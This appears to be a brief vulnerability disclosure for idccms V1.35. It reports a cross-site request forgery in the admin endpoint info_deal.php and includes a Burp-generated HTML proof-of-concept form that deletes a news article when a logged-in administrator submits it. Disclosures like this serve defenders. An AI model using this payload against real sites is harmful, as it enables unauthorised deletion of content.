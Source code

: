 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/info_deal.php?mudi=del&dataType=news&dataTypeCN=%E6%96%87%E7%AB%A0&theme=cs1&dataID=7887

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/info_deal.php?mudi=del&dataType=news&dataTypeCN=%E6%96%87%E7%AB%A0&theme=cs1&dataID=7887" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
